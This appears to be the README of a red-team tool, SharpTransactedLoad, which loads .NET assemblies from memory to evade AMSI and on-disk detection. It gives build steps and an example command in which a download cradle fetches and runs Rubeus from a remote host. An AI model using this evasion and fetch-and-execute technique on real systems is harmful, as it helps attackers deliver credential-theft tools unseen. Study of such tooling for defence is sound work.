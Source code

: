 # SharpTransactedLoad
Load .net assemblies from memory while having them appear to be loaded from an on-disk location. Bypasses AMSI and expands the number of methods available for use in loading arbitrary assemblies while still avoiding dropping files to disk - some of which provide additional functionality over the traditional Assembly.Load call.  Currently built for .net 4.5, but should be compatibile with other versions.

## Building and Using
**Note**: Testing was done with an x64 build, and as a result I would recommend building the project as x64. This still allows you to reflectively load both x86 and x64 assemblies from memory, this just controls the architecture of the dll itself. Although "Any CPU" appears to function as intended as well, I have no clue if any weird behavior would be exhibited when attempting to inject into an x86 process etc.

This repo consists of two projects: SharpTransactedLoad (STL) and SharperCradle.  STL contains the actual code and compiles to a .dll that can then be used in other projects.  SharperCradle is a very simple proof of concept web download cradle showing how STL can be used in a portable tool to avoid having to call Assembly.Load(byte[]).  Both projects use Costura to merge all the necessary DLLs into a single portable package.

### SharpTransactedLoad
This project builds as a DLL, and as a result it isnt something that can be directly ran.  Rather, once this is built you can add it as a reference in another project and use it by calling "STL.TransactedAssembly.Load(byte[])"
STL uses EasyHook for hooking functions.  Within the project there are currently two required EasyHook DLLs:
  - **EasyHook.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/ folder.  This is a managed DLL and handles communications with the second (unmanaged) EasyHook dll.
  - **EasyHook64.dll**: sits in the SharpTransactedLoad/SharpTransactedLoad/Costura64 folder.  This is an unmanaged DLL, and handles the actual hooking functions.
Both of these DLL's were taken straight from EasyHook, but I definitely understand folks hesitancy to blindly trust pre-compiled code.  If you opt for the more opsec route, the original DLLs can be pulled directly from EasyHook and swapped for the ones currently in the project, just make sure names align.  Also, when browsing the project you may notice the Costura32 folder does not have anything in it.  If you opt to build as x86, I would drop the DLL in there.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Recommended) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - (Optional) Change deployment config to Debug or Release, as suits your needs.  Debug will print a bunch of output to the console when an assembly is loaded regarding the results of the different steps in the process, whereas release runs without printing anything.
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.

### SharperCradle
This serves as a PoC of how STL can be used in a project to avoid the standard Assembly.Load(byte[]) call.  Builds as a PE.

**Build instructions:**
  - Clean the solution to re-populate all necessary Costura + Fody packages. In Visual Studio, go 'Build' -> 'Clean Solution'.
  - (Required if you built STL as x64) Set your platform to x64.  In Visual Studio, select x64 from the 'Solution Platforms' dropdown near the top of the screen (likely currently set to 'Any CPU').
  - Build the solution In Visual Studio, go 'Build' -> 'Build Solution'.
  
Once built, calling is super basic - just pass the uri of the resource you're attempting to load as the first arg, with any args to be passed to the loaded assembly behind that, for example:

```
SharperCradle.exe http://192.168.1.100/Rubeus.exe Triage
```

## Credits
  - @FuzzySec: Prior work on hooking with EasyHook (specifically Dendrobate) and outline that this project followed: 
  - @Anthemtotheego: Guidance on Transactional NTFS + SharpCradle, which the SharperCradle PoC was based off of: 